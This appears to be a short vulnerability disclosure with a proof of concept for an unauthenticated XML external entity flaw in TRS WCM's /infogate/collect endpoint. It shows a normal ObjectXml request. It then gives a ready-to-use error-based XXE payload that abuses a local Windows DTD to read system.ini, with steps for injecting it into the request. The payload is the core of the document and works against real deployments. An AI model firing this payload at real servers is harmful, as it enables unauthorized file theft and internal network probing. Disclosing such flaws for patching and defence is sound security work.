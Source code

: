# TRS WCM XXE
## Description
An XXE issue was discovered in WCM, which can be used to read any file in the system or scan the internal network without authentication. When submitting a post request to `/infogate/collect`, the *ObjectXml* parameter is in XML format, and the server doesn't properly verify the validity when processing XML data.

## POC
The normal request is as follows

![](img/wcmxxe0.png)

*ObjectXml* parameter content looks like this
```
<my:myFields xmlns:my="http://schemas.microsoft.com/office/infopath/">
<my:group1>
<my:您的姓名><![CDATA[123123123123123]]></my:您的姓名>
<my:联系电话><![CDATA[123123]]></my:联系电话>
<my:邮箱><![CDATA[123123]]></my:邮箱>
<my:联系地址><![CDATA[123]]></my:联系地址>
<my:主题><![CDATA[123123]]></my:主题>
<my:内容><![CDATA[123123]]></my:内容>
</my:group1>
</my:myFields>
```

POC:
```
  <!DOCTYPE message [
      <!ENTITY % local_dtd SYSTEM "file:///C:/Windows/System32/wbem/xml/cim20.dtd">
      <!ENTITY % SuperClass '>
          <!ENTITY &#x25; file SYSTEM "file:///c:/windows/system.ini">
          <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
          &#x25;eval;
          &#x25;error;
          '>
      %local_dtd;
  ]>
  <message>any text</message>
```

Put the POC code before the content of the ObjectXml parameter and submit the request
![](img/wcmxxe1.png)
